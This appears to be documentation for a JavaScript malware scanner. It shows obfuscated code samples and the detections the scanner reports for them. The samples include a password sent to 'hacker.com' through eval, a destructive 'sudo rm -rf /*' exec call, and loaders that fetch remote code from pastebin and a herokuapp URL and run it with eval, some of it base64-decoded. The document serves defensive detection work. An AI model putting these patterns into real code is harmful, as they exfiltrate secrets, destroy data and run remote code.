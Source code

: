 # 1 Keyword disguise
## 1.1 Concatenated String
```
var url_part_1 = 'h' + 't' + 't' + 'p' // <--- disguised http keyword
var url_part_2 = ['api.github', '.com/repos'].join('')
var address = url_part_1 + url_part_2;
var r = http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result: 
```
Found data exchange in:
http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

## 1.2 Encoded String
```
var e = Buffer.from(e, "hex").toString()
var r = http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result:
```
==========
Found data exchange & encoded string in:
http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

# 2 Command Injection
## 2.1 Hardcoded code string

**Execute js code**

```
eval('http.post("hacker.com", {"pwd": pwd})')
```
Result:
```
==========
Found powerful function in:
eval('http.post("hacker.com", {"pwd": pwd})')
```

**Execute shell command**
```
exec('sudo rm -rf /*', (err, stdout, stderr) => {
});
```
Result:
```
==========
Found powerful function in:
exec('sudo rm -rf /*', (err, stdout, stderr) => {
})
```


## 2.2 Encoded code string
```
var a = 'asdfbakl2347198ebfkjdasfae' // <--- malicious code
var decoded_a = Buffer.from(a, "hex").toString()
eval(decoded_a)
```
Result:
```
==========
Found powerful function & encoded string in:
eval(decoded_a)
```


## 2.3 Code from http response
**Plain string**
```
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```
Result: 
```
==========
Found data exchange & powerful function in:
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```

**With Encoding**
```
try {
    https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
```
Result: 
```
==========
Found data exchange & powerful function & encoded string in:
https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
    try {
        eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
    } catch (e) {}
}))
```

# 3 Name alias
```
var o = http
function i(e, t, n) {
    e = 'http://google.com';
    var r = o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {});
}
```
Result:
```
==========
Found data exchange in:
o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {})
```
